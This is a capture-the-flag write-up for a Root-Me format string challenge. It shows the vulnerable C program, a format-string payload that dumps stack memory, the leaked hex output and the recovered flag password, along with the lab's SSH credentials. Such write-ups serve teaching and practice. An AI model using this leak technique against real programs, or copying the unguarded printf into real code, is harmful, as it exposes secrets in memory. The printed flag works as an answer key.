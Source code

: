 # ELF x86 - Format string bug basic 1
- Point: 15pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Easy
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch5@challenge02.root-me.org
- Password:&emsp;app-systeme-ch5

![image](https://user-images.githubusercontent.com/48288606/141501790-9851fa6d-9b74-44b1-9960-74e627795010.png)

## Write-up:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
The code open file **.passwd** which includes the password we need, then write it into **buffer** array. <br>
The vulnerability in `printf(argv[1]);`, it execute without **Format specifier".**So we can take advantage of this  to look into the stack to find out the password.
### Solution:
- We'll "scan" the buffer space and examine the output value. Print the value with hex code: <br>
`./ch5 $(python -c "print '%08x.'*32")`
- Output:
```
00000020.0804b160.0804853d.00000009.bffffcc5.b7e1b589.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.cfa6f800.bffffb00.00000000.00000000.b7e03f21.b7fc3000.b7fc3000.00000000.b7e03f21.00000002.bffffb94.bffffba0.bffffb24.00000001.
```
- Convert to ASCII text ([HextoText](https://www.rapidtables.com/convert/number/hex-to-ascii.html)):<br><br>
![image](https://user-images.githubusercontent.com/48288606/141614663-d2edc72c-3b5f-4267-9ec4-aefeb2fcfeb7.png)<br><br>
As illustrated, a part of string above contains the real password; therefore, we just write these bytes into "big endian" [See script here](ELF%20x86%20-%20Format%20string%20bug%20basic%201.py) format and convert again to hex.<br>

Pass: Dpa9d6)(Epamd


